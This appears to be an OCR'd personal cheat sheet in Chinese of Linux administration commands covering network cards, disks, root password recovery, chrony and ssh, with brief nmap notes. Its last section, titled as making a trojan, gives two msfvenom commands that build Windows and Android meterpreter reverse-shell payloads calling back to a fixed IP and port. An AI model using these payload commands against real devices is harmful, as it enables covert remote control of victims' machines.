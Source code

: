 ethtool ens01查看网卡详细信息 fiber是光

ethtool -p eth0设备号eth0对应的物理灯会闪烁

- **nmap扫描**

-sF(open|filtered)和-sA(总述unfiltered)结合看端口状态

- **磁盘命令**

fdisk -l查看磁盘分区

mkfs -t ext4 /dev/sdx格式化磁盘

mkdir /data;mount /dev/sdb /data挂载磁盘

df -hT查看磁盘格式

blkid查看分区的UUID

/etc/fstab生效

lsblk -f查看磁盘的格式

fdisk -l前面是disk 后面是lvm

2.1使用命令fdisk /dev/sdb

2.2提示输入m获取帮助，输入m回车【如果不想查看帮助，这一步可以忽略】

- **root密码忘记解决办法**

e进入编辑 ro改为rw；在quiet后面加init=/bin/bash;pwd

- **chrony:**

chronyc sources -v

\>>符号追加，/var/log/chrony

timedatectl set-ntp yes

timedatectl查看同步状态

设置系统计划任务

使用crontab命令设置系统计划任务，每天凌晨2点执行一次chronyc命令：

\# crontab -e 0 2 * * * /usr/sbin/chronyc -a makestep

- **ssh密钥配置**

cd .ssh/

ll

vi known_hosts                 

- **metasploit制作木马**

msfvenom -p  windows/meterpreter/reverse_tcp LHOST=10.23.177.200  LPORT=5555 -f exe > 1.exe      

msfvenom -p android/meterpreter/reverse_tcp LHOST=10.23.177.200  LPORT=5555  R  > 1.apk    

开启postgresql /etc/init.d/postgresql start                 
